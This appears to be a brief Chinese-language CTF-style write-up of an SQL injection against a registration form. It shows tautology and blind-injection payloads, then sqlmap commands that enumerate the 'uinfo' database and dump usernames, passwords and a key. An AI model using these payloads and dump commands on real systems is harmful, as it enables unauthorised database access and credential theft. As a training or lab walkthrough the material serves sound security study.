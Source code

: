 ```sql
password=12' OR '1'='1&username=12' OR '1'='1
```

![image.png](https://img.ghostliner.top/TNFnzT.png)

注册用户 `admin`，提示已存在
![image.png](https://img.ghostliner.top/4ZNyCz.png)

尝试绕过

```sql
admin' and '1'='2
```

输入两次都显示注册成功，猜测此处存在盲注

使用 sqlmap 测试

```shell
# 获取数据库
sqlmap.py -r c:\temp\a.txt -p username --dbs
# 获取表
sqlmap.py -r c:\temp\a.txt -p username -D uinfo --tables
# 获取列
sqlmap.py -r c:\temp\a.txt -p username -D uinfo -T users --columns
# dump数据
sqlmap.py -r c:\temp\a.txt -p username -D uinfo -T users -C username,password --dump
```

爆破用户名密码时报错：

![image.png](https://img.ghostliner.top/2379m2.png)

尝试爆破 remark 字段

```shell
sqlmap.py -r c:\temp\a.txt -p username -D uinfo -T users -C remark --stop 1 --dump
```

获取到 key

![image.png](https://img.ghostliner.top/e5H7wu.png)

测试带上 id 爆破 admin 密码

```shell
sqlmap.py -r c:\temp\a.txt -p username -D uinfo -T users -C id,username,password --dump
```

爆破成功

![image.png](https://img.ghostliner.top/Ltz899.png)

登陆后获得同样的 key

![image.png](https://img.ghostliner.top/Z17Lsg.png)
